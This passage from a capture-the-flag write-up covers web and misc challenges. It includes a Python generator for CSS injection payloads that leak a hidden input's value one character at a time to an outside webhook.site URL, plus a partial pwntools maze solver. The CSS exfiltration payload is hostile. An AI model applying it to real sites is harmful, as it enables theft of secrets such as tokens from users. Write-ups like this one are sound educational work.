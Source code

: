 ```python
}
response = requests.post(url, headers=headers, data=json.dumps(payload))
print(response.content)
```

After getting the user's secret, we can simply submit it along with the user id to get the flag.

## Beautiful Styles
We see that the flag is held in `<input id="flag" value="{{ flag }}">`. We can steal this character by character using CSS:

```css
for i in "0123456789ABCDEFGHIJKLMNOPQRSTUVQXYZ{}f":
		print('input[id="flag"][value^="grey{' + i + '"] {background: url("https://webhook.site/???/?char=' + i + '")}')
```

More information [here](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/). I extracted the flag by hand, as scripting this challenge surely would've taken more time.

# Misc Challenges
I'm only going to go through the relatively harder ones.

## Maze Runner
This problem looks exactly like the one in [this geeksforgeeks article](https://www.geeksforgeeks.org/shortest-path-by-removing-k-walls/), so hopefully we can just repurpose their code. The maze uses thin walls, and as per [this stackoverflow answer](https://stackoverflow.com/a/78294870), we can simply represent the maze as a 2d array and reduce the number of steps by half later.

```python
from pwn import *
from collections import deque
import itertools
c = remote('challs.nusgreyhats.org',31112)
def shortestPath(mat, k):
    # Credit to https://www.geeksforgeeks.org/shortest-path-by-removing-k-walls/
    ...
    return steps
level = 0
for i in range(50):
    level += 1
    print(level)
    c.recvuntil(f'{level}:\n'.encode())
    walls = "┏━┃╹┛┓┗┣╻━┳┻╋┫"
    maze = []
    breakable_walls = []
    row = c.recvline().decode().strip()
    row_decoded = []
    i = 0
    while i < len(row):
        if row[i] in walls:
            row_decoded.append(1)
        else:
            row_decoded.append(0)
        i += 1
        if i < len(row) and row[i] in walls:
            row_decoded.append(1)
        else:
            row_decoded.append(0)
        i += 3
    for t in range(len(maze[0]) - 2):  # Ignore top and bottom border
        row = c.recvline().decode().strip()
        row_decoded = []
```